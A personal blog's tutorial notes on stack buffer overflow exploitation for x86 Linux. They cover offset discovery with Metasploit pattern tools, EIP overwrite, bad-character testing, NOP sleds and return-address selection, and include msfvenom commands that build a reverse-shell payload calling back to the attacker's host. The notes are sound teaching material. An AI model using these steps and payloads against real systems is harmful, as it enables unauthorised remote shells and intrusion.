 ```yaml
---
title: Notes | Reverse | BOF
author: BatBato
date: 2022-12-07
categories: [Notes, Reverse, BOF]
tags: [Reverse, BOF]
permalink: /Notes/Reverse/BOF
---
```


# Buffer Overflow

From here I'm assuming that you already know a bit about ASM (```mov```, ```call```, ```lea```...). If you don't there is a good introduction in [here](https://cloud.isi.insa-cvl.fr/s/qWmEqLkSGXnkLZn).

So basicaly, the buffer overflow attack apear when you don't pay attention to the user input and that he gives you a greater input that what you expected. This surplus, will overwrite the memory.

We need to keep in mind the endianness of the program. If for example, we have a word ```\xAA\xBB\xCC\xDD``` at the address ```0xffff0000```, then depending on the endianness the word will be read differently :

| Memory Address | 	0xffff0000 | 	0xffff0001 | 	0xffff0002 | 	0xffff0003 |
|---|---|---|---|---|
| Big-Endian 	|AA | 	BB | 	CC | 	DD |
| Little-Endian | 	DD | 	CC | 	BB | 	AA |

What we would like to do is to give a greater input than the one expected so that we overwrite the return of the program. Thanks to that, we will be able to call another function or something else in the memory. Here is an image that shows basically what we want to do :

![image](https://user-images.githubusercontent.com/73934639/206201166-ef62b19e-10da-4ae2-a3b5-d7139375b54f.png){: width="300" height="100" }

At first, we will try to find the main function and its address. For that, we can use gdb or radar2. I will continue this explanation using gdb syntax but it is basically the same on r2. We will run the program until we get to the input part, when we get there we can input a large number of ```A``` and if we inputed enought A, we should get a :
```sh
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

The ```41``` are the hexadecimal value of ```A```. Now that we know that we overwrote the return address we need to find how much ```A``` we need to input before getting a segmentation fault. We can use the ```pattern_offset``` tool of ```metasploit``` to generate a random string of certain length so we don't have a bunch of ```41``` in the memory. We can use it as follows:
```sh
pattern_create.rb -l 1200
```

> This program should be in the ```metasploit-framework``` folder. On my computer it is located at ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb```.
{: .prompt-info }

We can use the gdb command to find the address of ```EIP``` (respectively ```RIP``` depending on the architecture) :
```sh
info registers eip
```

With this information you can use the metasploit ```pattern_offset.rb``` tool to find the exact offset. Or if you are good in ASM you can look what is the length of the word you give in input. You can use the tool as follows (where 0xaabbccdd is the address of eip you found earlier):
```pattern_offset.rb -q 0xaabbccdd```

> You can find ```pattern_offset.rb``` in ```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb```.
{: .prompt-info}

We will assume that we have an offset of 64 for the rest of the demonstration. Now we can run the program again with the offset length as input and 4 bytes of "B"s. 4 is the size of the address. Here is an example:
```sh
"A" * 64 + "B"*4
```

You can use this python command to generate your strings: 
```sh
python -c "print 'A' * 64 + 'B' * 4"
```

With this input we should only have the 4 "B"s as EIP address like:
```sh
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

For this first part of BOF, we will use [msfvenom](https://www.kali.org/tools/metasploit-framework/#msfvenom). To use it to create a payload, we can use the following command:
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP lport=PORT --platform linux --arch x86 --format python
```

> Don't forget to replace ```IP``` with yours. Same for the ```PORT```.
{: .prompt-tip}

Now if this is too long you can change it to a simple shell instead of a reverse one.
The composition of our final payload will be:
```
Buffer = "C" * (64 - 10 - 40 - 4) = 10
NOPs = "\x90" * 10
Shellcode = "A" * 40
EIP = "B" * 4
```
> ```\x90``` is the hexadecimal value of the ```NOP``` instruction. {: .prompt-tip}

## Bad Characters

Your payload may not work because of some ```Bad Characters```. They are generaly ```\x00``` (Null byte),```\x0A``` (Line Feed),```\x0D``` (Carriage Return),```\xFF``` (Form Feed).

Here is the list of all chars from ```\x00``` to ```\xFF```:
```sh
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
You can remove the NOPs and the shellcode from the previous payload and replace them by this list. If the list is too long (256 chars) you can do it multiple time with different parts of the list. Now you can set a breakpoint just after the input so that we can analyse the memory. When the program hits the breakpoint, we can look at the ```EIP``` like that ```x/2000xb $esp+500```. We will see a bunch of ```0x43``` (our "C"s). At the end of our "C"s we should see the characters of our previous list. If a character isn't printed out, it means that it is a bad character. You can repeat those steps until you removed all the bad characters.

> Don't forget to change the number of "C"s when you remove a character from the list. The number of "C"s should increase by one each time you remove a bad character.{:.prompt-warning}

You can now use the previous ```msfvenom``` command specifying all bad characters:
```sh
msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT  --arch x86 --platform linux --format python --bad-chars "\x00\x09\x0a"
```

## Identification of the Return Address

Now we should replace our 4 "B"s by the address of our shellcode. For that we need to analyse the memory. We can do so like:
```sh
x/2000xb $esp+1400
```

We will where our NOPs (```0x90```) end and where our shellcode begins. For example, if the NOPs end at ```0xffffaabb```, then we will replace our 4 "B"s by ```\xbb\xaa\xff\xff```. To be more accurate we can chose an address that is full of NOP a bit before ```0xffffaabb```like ```0xffffaaaa``` for example.

# ROP chain attack
```comming soon```
